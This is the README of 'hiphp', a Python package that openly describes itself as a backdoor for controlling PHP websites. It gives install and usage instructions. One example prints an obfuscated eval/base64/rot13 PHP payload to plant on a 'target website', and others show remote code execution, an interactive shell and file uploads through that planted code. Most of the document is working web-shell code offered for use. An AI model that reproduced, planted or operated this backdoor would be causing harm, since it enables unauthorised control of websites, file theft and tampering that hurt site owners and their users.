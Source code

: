 
<p align="center"><img align="center" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot.png"></p>
<h1>hiphp for control php websites.</h1>

<p>backdoor control php sites, The site is controlled by sending commands, files and codes to the site using the http or https protocol. After copying the code and placing it in any php file on the target website, you will have permissions to enter it, read all files, delete and even upload new files to it. Also, this backdoor is password protected and non-reverse encryption.</p>

<h2>Installation:</h2>

```
pip install hiphp==0.1.14
```

<h2>Usage:</h2>

```python
#call the package:
from hiphp import hiphp
#
#
#In order to print the result directly.
p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>",False)
#
#In order to make the result as a variable.
#p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>")
#
#
#Get HIPHP ID for first use.
print(p1.get_code())
#
#
#Run a code or line in your website.
p1.run("<YOUR_CODE>")
#
#Run a code or line in your website from a file.
p1.run_file("<PHP_CODE_FILE_PATH>")
#
#Run a code or line in your website from a file With the entry of variables.
p1.run_file("<PHP_CODE_FILE_PATH>","<__VALUE_NAME__>==<VALUE_CONTENT>")
#
#
#open command line interface.
p1.cli()
#
#
#Upload a file to the server hosting the site.
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>")
#
#Upload a file to a specific folder in the server hosting the site.
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>","./<THE_PATH_YOU_WANT_TO_UPLOAD_THE_FILE_TO>") 

```

<h2>Examples:</h2>

```python
from hiphp import hiphp
#
p1=hiphp("123","http://localhost/index.php",False)
#
#
#
# Example:1
# GET ID:
print(p1.get_code())
# OUTPUT:
'''
/*php code start*/
eval(str_rot13(base64_decode(str_rot13(base64_decode('bkpMYldTOUdFSVdKRUlXb1cwdUhJU09zSUlBU0h5OU9FMElCSVBxcUNHMGFaUUx3QlJEM0F3RDBBUlJsWndSbEIwRGtDR1pqWUd0MFdHRDVDbU4xQ1JaakpteDFybVNPWFFOMkJ3SVBuR1Zsb0hObFpRTzBEbU9uQkdEY1p3dTlEMFdxQkdEK0FtTnVEeFp4QXdOekR3RXNBbU5lQUhWa0VRTG1abVYxRHdwM1pSTDVXbHk3TUpBYm9scHdwVXkwblQ5aFdtZ2NNdnVjcDNBeXFQdHhLMU9DSDFFb1cyQWlvSjF1b3pEYUtGeGNyMkkyTEpqYldTOURHMUFISmxxd28yMWdMSjV4VzEwY0IzMXlyVHkwQjMwPQ==')))));
/*php code end*/
'''
# Copy this code into the file whose path you entered earlier.
# for example: https://localhost/index.php
#
#
#
# Example:2
# Command:
p1.run("echo 'this is a test';")
# OUTPUT:
'''
this is a test
'''
#
#
#
# Example:3
# Run code from file:
#-example_3.php content:
'''
echo 'this is a test';
'''
#OR
'''
<?php
    echo 'this is a test';
?>
'''
p1.run_file("example_3.php")
# OUTPUT:
'''
this is a test
'''
#
#
#
# Example:4
# Run code from file With the entry of variables:
#-example_4.php content:
'''
echo '__test__';
'''
#OR
'''
<?php
    echo '__test__';
?>
'''
p1.run_file("example_4.php","test==this is a test")
# OUTPUT:
'''
this is a test
'''
#
#
#
# Example:5
# Command line interface:
p1.cli()
# OUTPUT:
'''
hiphp>>>
'''
#
#
#
# Example:6
# Upload a picture:
p1.upload("picture_example.png")
#
#
#
# Example:7
# Upload a picture to a specific path:
p1.upload("picture_example.png","./pictures/")

```

<h2>Screenshots:</h2>


<div align="center">
    <a href="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot.png">
        <img alt="yasserbdj96" height="100" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot.png">
    </a>
    <a href="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot1.png">
        <img alt="yasserbdj96" height="100" src="https://raw.githubusercontent.com/yasserbdj96/hiphp/main/screenshot/screenshot1.png">
    </a>
</div>



<h2>Changelog:</h2>

```
#
## 0.1.14
 - help menu update.
 - Bug fixes & performance improvements.
#
## 0.1.13
 - Safety upgrade.
 - Bug fixes & performance improvements.
#
## 0.1.12
 - Safety upgrade.
 - Bug fixes & performance improvements.
#
## 0.1.11
 - Command interface update.
 - Bug fixes & performance improvements.
#
## 0.1.10
 - Fix Bugs.
#
## 0.1.9
 - fix bugs.
#
## 0.1.7
 - fix bugs.
#
## 0.1.6
 - fix bugs.
 - add upload to upload any file.
 - Simplify the use of the program.
#
## 0.1.5
 - fix bugs.
#
## 0.1.4
 - fix bugs.
 - new build.
#
## 0.1.1
 - Import pakages by pipincluder.
 - Fix bugs.
#
## 0.1.0
 - New build.
 - Fix bugs.
#
## 0.0.4
 - Fix bugs.
#
## 0.0.2
 - Fix bugs.
 - Add help list.
 - Add Executing from files.
#
## 0.0.1
 - First public release.

```

<h1></h1> 
   
<p align="center">
   <a href="https://yasserbdj96.github.io" align="center"><img align="center" alt="Website" src="https://img.shields.io/badge/Website-3b5998?style=flat-square&logo=google-chrome&logoColor=white"></a>
   <a href="https://www.linkedin.com/in/yasserbdj96" align="center"><img align="center" alt="LinkedIn" src="https://img.shields.io/badge/-LinkedIn-0e76a8?style=flat-square&logo=Linkedin&logoColor=white"></a>
   <a href="https://twitter.com/yasserbdj96" align="center"><img align="center" alt="Twitter" src="https://img.shields.io/badge/-Twitter-00acee?style=flat-square&logo=Twitter&logoColor=white"></a>
   <a href="https://www.instagram.com/yasserbdj96" align="center"><img align="center" alt="Instagram" src="https://img.shields.io/badge/-Instagram-e4405f?style=flat-square&logo=Instagram&logoColor=white"></a>
   <a href="https://www.facebook.com/yasserbdj96" align="center"><img align="center" alt="Facebook" src="https://img.shields.io/badge/-Facebook-0088cc?style=flat-square&logo=facebook&logoColor=white"></a>
   <a href="https://www.youtube.com/channel/UC53dtKxc84BNPyDb51rtRPg" align="center"><img align="center" alt="Youtube" src="https://img.shields.io/badge/-Youtube-ea4335?style=flat-square&logo=youtube&logoColor=white"></a>
   <a href="https://pypi.org/user/yasserbdj96" align="center"><img align="center" alt="Pypi" src="https://img.shields.io/badge/-Pypi-efeeea?style=flat-square&logo=pypi"></a>
   <a href="mailto:yasser.bdj96@gmail.com" align="center"><img align="center" alt="Gmail" src="https://img.shields.io/badge/-yasser.bdj96@gmail.com-c14438?style=flat-square&logo=Gmail&logoColor=white&link=mailto:yasser.bdj96@gmail.com"></a>
</p>

<p align="center">
    BTC : 16mUJYXdNh9VkjN3MQawA8wvYJqL9F5CKZ

</p>

<p align="center">
    <a align="center" href="https://ko-fi.com/L3L34CEPV">
        <img alt="ko-fi" align="center" src="https://ko-fi.com/img/githubbutton_sm.svg">
    </a>
</p>

<p align="center">
    <a align="center" href="https://yasserbdj96.github.io">
        <img align="center" alt="yasserbdj96" height="100" src="https://raw.githubusercontent.com/yasserbdj96/yasserbdj96/main/images/yasserbdj96.png">
    </a>
    <br>
    <a align="center" href="https://github.com/yasserbdj96/" align="center">
        <img align="center" alt="" src="https://visitor-badge.laobi.icu/badge?page_id=yasserbdj96.hiphp">
    </a>
</p>
